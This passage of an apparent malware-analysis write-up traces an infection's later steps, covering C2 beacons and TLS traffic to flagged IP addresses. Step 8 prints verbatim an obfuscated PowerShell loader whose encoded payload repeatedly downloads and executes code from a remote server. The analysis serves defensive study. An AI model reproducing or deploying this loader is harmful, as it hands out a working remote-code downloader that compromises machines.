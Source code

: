 8. The infected machine downloads and executes all files. One of the files, pas.ps1, is a PowerShell script that:

   - Cleans the code from noise symbols (;, }, >)
   - Decodes the code from Base64.
 
 ![2025-02-20 15_40_58-Window](https://github.com/user-attachments/assets/44868eb5-83af-4ea4-ab73-0f7930446aa2)

```
# Malicious code
iex ([system.text.encoding]::UTF8.GetString([system.convert]::('F#r[o;m;B[a[s#e#6#4[S;t;r[i;n#g['.replace('#','').replace(';','').replace('[',''))('J;G;Z;z>b;y;A}9;I}E;5;l;d;y>1;P}Y>m}p}l;Y;3>Q}g}L>U;N;v>b}S>A;i}U}2;N}y}a}X>B>0;a}W}5>n>L;k>Z>p;b;G>V}T>e}X}N;0}Z>W}1}P;Y;m;p>l>Y}3;Q;i>C;i;R>T>Z>X>J}p>Y>W>x>O;d;W}1}i>Z}X>I;g}P;S;A}k}Z>n;N>v;L}k;d;l;d}E}R}y>a;X;Z>l;K>C}J}j;O}l}w;i>K}S>5>T}Z;X>J}p>Y;W;x;O;d}W>1}i}Z;X}I}K>J;F}N;l}c>m;l;h;b}E}5>1;b}W;J}l>c;i>A;9>I}C;J>7}M}D}p;Y}f}S}I}g>L>W;Y}g;J>F>N>l}c}m}l>h;b>E>5}1;b>W;J;l;c;g}o;k}U;2}V;y>a>W}F>s}T}n;V}t}Y}m;V;y}I}D;0;g>W}2>N;v>b}n>Z>l;c>n>R>d;O>j;p}0;b>2>l}u>d;D}Y}0;K}C}R}T>Z>X}J>p>Y>W;x>O>d;W>1}i}Z;X;I}s}M}T}Y>p>C}i}R;z}Z;X}J}p;Y;W>w}g;P;S>A>k>U;2>V>y}a;W>F>s}T;n;V}t}Y}m>V}y}C>i}R;p}c>C}A}9>I;C;d}o>d}H}R}w}O}i>8>v>N}S>4>y>N>T}I>u;M}T;U;z>L;j;I}0;M}S>8;n}C}i>R;1>c>m}w>g;P}S;A;k}a;X>A}r;J}H}N>l}c;m>l;h}b>A>o>k}c}y>A}9;I}E;5>l;d;y}1>P>Y>m;p}l>Y}3}Q}g;U;3;l;z>d>G;V}t}L}k;5}l>d>C;5>X}Z>W;J}D}b}G;l}l;b}n;Q}K}d>2;h}p;b;G}U;g>K>C}R;0}c;n>V>l}K}S>B;7}C}i>A>g;I>C;B;0>c;n}k}g>e>w}o;g;I>C;A>g>I>C;A>g}I>C;R>y;Z}X>N>1}b>H}Q>9}J>H;M}u;R;G>9>3}b}m}x>v>Y}W>R}T}d}H}J}p}b}m}c}o>J>H}V}y;b;C;k;K}I>C>A>g>I;H;0;K>I;C}A}g}I;G}N}h;d>G}N>o}I>H;s;K;I>C;A}g;I}C;A;g>I>C;B>T}d}G>F;y}d}C}1}T;b;G}V}l;c}C}A;t}c}y;A}1;C;i>A>g}I;C;A;g;I>C>A}g}Y;2}9>u>d}G;l;u}d;W;U}K>I}C>A}g;I>H>0}K}I;C>A;g;I>E>l}u;d;m;9>r>Z;S}1;F>e}H;B;y}Z}X;N>z>a;W}9>u>I>C;R;y>Z>X;N;1}b}H;Q}K}I>C;A}g;I;F}N}0}Y>X;J;0>L>V>N}s}Z}W}V>w}I}C;1>z>I}D;U;K>f;Q}o;=>'.replace('}','').replace(';','').replace('>',''))))
```

9. After the files are downloaded and the code is executed, the infected system sends an `HTTP GET request` with the message `startup shortcut created status success`.

   ![2025-02-20 15_42_47-Window](https://github.com/user-attachments/assets/219ffa46-8a79-4b0f-8a40-f4b6be76c907)

  Shortly after, another `HTTP GET request` is sent with the message `script status: Process started`.

   ![2025-02-20 15_45_28-Window](https://github.com/user-attachments/assets/51ae5bb7-18f7-407e-9016-e2baed46f76b)

10. The infected system initiates a `TCP 3-Way Handshake` with `45.125.66.32`, an IP address that has been reported 480 times on AbuseIPDB.

   ![2025-02-20 18_57_40-Window](https://github.com/user-attachments/assets/e90743d0-d36c-4739-a48f-c36d6611e868)

11. After the handshake, the system encrypts communication with the C2 server using a public key from a self-signed certificate provided by the C2 server.

   ![2025-02-20 19_07_27-Window](https://github.com/user-attachments/assets/d020b6a8-18ab-41f9-b4c8-bcc4135ba90a)

12. Filtering packets by tls.handshake.type == 11 reveals another TLS handshake with  a third C2 server with self-signed certificate at 45.125.66.252, which also has reports on AbuseIPDB.

   ![2025-02-20 19_30_35-Window](https://github.com/user-attachments/assets/7dc26927-59a0-4378-93c3-bd736763ea52)


